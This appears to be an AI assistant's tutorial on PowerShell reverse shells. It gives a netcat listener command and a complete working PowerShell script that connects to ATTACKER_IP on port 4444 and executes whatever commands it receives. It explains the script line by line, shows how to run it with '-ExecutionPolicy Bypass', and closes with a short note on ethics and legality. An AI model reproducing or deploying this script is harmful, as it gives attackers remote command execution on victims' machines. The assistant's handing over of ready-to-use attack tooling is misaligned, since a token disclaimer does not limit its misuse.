 Certainly! Let's break down how a reverse shell using PowerShell works, step by step. A reverse shell is a type of shell where the target machine (the victim) initiates a connection to an attacking machine (the attacker) and provides shell access.

### Components of a Reverse Shell

1. **Listener**: The attacking machine runs a service that listens for incoming connections.
2. **Reverse Shell Script**: The target machine runs a script that connects back to the listener and provides a shell interface.

### Step-by-Step Explanation of a PowerShell Reverse Shell Script

#### Step 1: Set Up a Listener on the Attacker Machine

On your attacking machine, you need to set up a listener that will wait for incoming connections. You can use `netcat` (nc) for this purpose:

```bash
nc -lvnp 4444
```

- `-l`: Listen mode.
- `-v`: Verbose mode.
- `-n`: No DNS resolution.
- `-p`: Local port.

This command tells `netcat` to listen on port 4444 for incoming connections.

#### Step 2: Create the Reverse Shell Script on the Target Machine

A simple PowerShell reverse shell script can be written as follows:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true
$buffer = New-Object System.Byte[] 1024
$encoding = New-Object System.Text.AsciiEncoding

while ($true) {
    $writer.Write("PS " + (Get-Location).Path + "> ")
    $read = $stream.Read($buffer, 0, $buffer.Length)
    $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
    try {
        $result = (Invoke-Expression $cmd 2>&1 | Out-String )
    }
    catch {
        $result  = $_.Exception.Message
    }
    $writer.WriteLine($result)
    $writer.Flush()
}
$client.Close()
```

### Explanation of the PowerShell Script

1. **Establishing the Connection:**
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
    $stream = $client.GetStream()
    ```
    - `$client`: Creates a new TCP client object that connects to the attacker's IP on port 4444.
    - `$stream`: Retrieves the network stream used to send and receive data.

2. **Stream Writers and Encoders:**
    ```powershell
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024
    $encoding = New-Object System.Text.AsciiEncoding
    ```
    - `$writer`: A stream writer to send data to the attacker.
    - `$writer.AutoFlush = $true`: Ensures that the buffer is flushed automatically.
    - `$buffer`: A byte array buffer to read incoming data.
    - `$encoding`: ASCII encoding to convert bytes to strings and vice versa.

3. **Main Loop:**
    ```powershell
    while ($true) {
        $writer.Write("PS " + (Get-Location).Path + "> ")
        $read = $stream.Read($buffer, 0, $buffer.Length)
        $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
        try {
            $result = (Invoke-Expression $cmd 2>&1 | Out-String )
        }
        catch {
            $result  = $_.Exception.Message
        }
        $writer.WriteLine($result)
        $writer.Flush()
    }
    ```
    - `while ($true)`: An infinite loop to keep the connection open.
    - `$writer.Write("PS " + (Get-Location).Path + "> ")`: Sends the current PowerShell prompt to the attacker.
    - `$read = $stream.Read($buffer, 0, $buffer.Length)`: Reads incoming data from the stream into the buffer.
    - `$cmd = ($encoding.GetString($buffer, 0, $read)).Trim()`: Converts the buffer bytes to a string and trims whitespace.
    - `Invoke-Expression $cmd`: Executes the received command.
    - `2>&1 | Out-String`: Captures any errors and converts the output to a string.
    - `$writer.WriteLine($result)`: Sends the result back to the attacker.
    - `$writer.Flush()`: Ensures the output is sent immediately.

4. **Closing the Connection:**
    ```powershell
    $client.Close()
    ```
    - This line closes the TCP connection when the script ends (though in this infinite loop, it never reaches this point unless the script is interrupted).

### Putting It All Together

1. Start the listener on your attacker machine:
    ```bash
    nc -lvnp 4444
    ```

2. Run the PowerShell script on the target machine:
    - Save the script to a `.ps1` file, for example, `reverse_shell.ps1`.
    - Execute the script using PowerShell:
      ```powershell
      powershell -ExecutionPolicy Bypass -File reverse_shell.ps1
      ```

### Security and Ethical Considerations

- **Ethical Use**: Only use reverse shells in environments where you have explicit permission to do so, such as in penetration testing with prior authorization.
- **Security**: Reverse shells can be a significant security risk if misused. Ensure that you are following best practices for securing your systems and networks.
- **Legal**: Unauthorized access to computer systems is illegal and punishable by law. Always ensure that you have legal authorization before performing any activities involving reverse shells or other hacking tools.

By understanding the components and how they work, you can modify and create your own reverse shell scripts for legitimate and educational purposes.